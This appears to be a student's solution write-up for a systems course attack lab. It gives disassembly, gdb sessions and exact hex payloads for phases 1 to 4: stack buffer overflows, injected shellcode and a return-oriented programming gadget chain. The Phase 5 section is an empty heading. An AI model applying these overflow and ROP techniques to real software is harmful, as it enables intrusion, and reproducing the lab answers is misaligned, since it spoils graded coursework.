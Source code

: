 # attack_lab_solution

## Preface
To run this lab program, you should use the command `./ctarget -q` instead of `./ctarget` since there's no grading server.

## Phase 1
This phase is so easy and it just helps you to get familiar with this lab. You can choose to use the command objdump or just use gdb to solve this lab.
One way is to use the command objdump and then you get the corresponding source code of getbuf() and touch1() function:
``` asm00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40

```
It's clear that the address of touch1 should be 0x4017c0. Then you get the unique key to solve this problem. You also find that the command `sub $0x28, %rsp` allocates 40 bytes(0x28 = 40 in decimal). Then you just need to use some random bytes to fill up these 40 bytes and combine it with the address. 
It should be mentioned that you should know whether your system is little-endian or not, it decides the order of your answer. On my little-endian system, the answer could be 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

## Phase 2
We use the similar method to solve phase 2.
Firstly, let's have a look at the touch2 function, 
```
void touch2(unsigned val) {
  vlevel = 2;
  /* Part of validation protocol */ 
  if (val == cookie) {
  printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
We know that the first argument is stored in the %rdi register, so we need to inject into the code to change the value of this register. 

We use the following code to change the value of %rdi
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
Note: the value of the cookie depends on your problem version.
We save the file and name it after phase2.s
then we use the command `gcc -c phase2.s` and `objdump -d phase2.o` to find the byte code 
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3
```
Then similarly, we expand the byte code into 40 bytes, and let the jump address to be the address of rsp, which we can get by using gdb:
```
(gdb) until *0x4017b4
Type string:vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn

Breakpoint 2, getbuf () at buf.c:16
16	in buf.c
(gdb) x/s $rsp
0x5561dc78:	"vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn"
```
Here, we specify the jump address to be the address of rsp, which is also the address of the byte code we enter above. So the return address of getbuf will be changed. Then we accomplish the injection. 

## Phase 3
In phase3, we pass the address of the string as the argument. We can construct the solution based on phase2. Rather than moving the cookie directly in the assembly code, we pass the address of cookie this time. 

``` asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
```
Then we briefly talk about this constant. 0x5561dca8 = 0x5561dc78 + 0x30, where 0x5561dc78 is what we use in the phase 2(rsp). We use this 0x30 because of our structure of the final solution. We put the cookie string at the end of the byte code. To be more specific, 

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61
00

```
35 39 62 39 39 37 66 61 is the ascii byte code of our cookie string, and 00 is the sign used in C to indicate the end of a string. The other part is similar to what we talk about in phase2. 


## Phase 4 
Unlike the previous case, we use a technique called return of programming to conduct the attacking. Why? Since the protection 
makes it impossible to predict the position of stack frame pointers(stack randomization) and also prevent the injection code from running.

In this part, we find the gadget from the gadget farm, and it's not difficult to find the instruction 58 90 c3
```
popq $rax
nop
ret
```
and also 48 89 c7 c3
``` 
movq $rax, $rdi
ret
```

so we construct the solution as follows:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

```

## Phase 5
